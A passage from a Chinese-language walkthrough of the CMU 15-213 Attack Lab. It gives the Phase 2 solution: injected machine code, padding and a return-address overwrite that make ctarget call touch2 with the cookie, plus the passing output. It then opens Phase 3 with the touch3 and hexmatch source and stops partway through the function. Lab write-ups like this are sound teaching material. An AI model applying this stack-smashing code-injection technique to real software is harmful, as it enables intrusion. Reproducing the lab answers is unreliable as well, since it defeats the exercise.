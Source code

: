 看看Phase2.d的输出:
```shell
$ cat Phase2.d
Phase2.o:     file format elf64-x86-64


Disassembly of section .text:

   0:   bf fa 97 b9 59          mov    $0x59b997fa,%edi
   5:   49 c7 c0 ec 17 40 00    mov    $0x4017ec,%r8
   c:   41 ff d0                call   *%r8
```
然后把十六进制数输入Phase2文件
```
/* Phase2 */
bf fa 97 b9 59          /* mov    $0x59b997fa,%edi */
49 c7 c0 ec 17 40 00    /* mov    $0x4017ec,%r8 */
41 ff d0                /* call   *%r8 */
/* 以上15字节 */
ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff 
ff ff ff ff ff ff ff ff
78 dc 61 55             /* 返回地址覆写为0x5561dc78 */
```
生成字符串
```shell
mv Phase2.s Phase2.d Phase2.o
./hex2raw < Phase2 > Phase2-raw
```
成功了!
```shell
$ ./ctarget -qi Phase2-raw
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:BF FA 97 B9 59 49 C7 C0 EC 17 40 00 41 FF D0 FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF 78 DC 61 55
```


## Phase 3
Phase2中我给%rdi寄存器赋值传参,而这个问题需要以字符指针传参.
```C
void touch3(char *sval){
	vlevel = 3;
	if(hexmatch(cookie, sval)){
		printf("Touch3!: You called touch3(\"%s\")\n", sval);
		validate(3);
	}
	else{
		printf("Misfire: You called touch3(\"%s\")\n", sval);
		fail(3);
	}
	exit(0);
}

int hexmatch(unsigned val, char *sval){
	char cbuf[110];
	/* Make position of check string unpredictable */
	char *s = cbuf + random() % 100;
	sprintf(s, "%.8x", val);
	return strncmp(sval, s, 9) == 0;
```
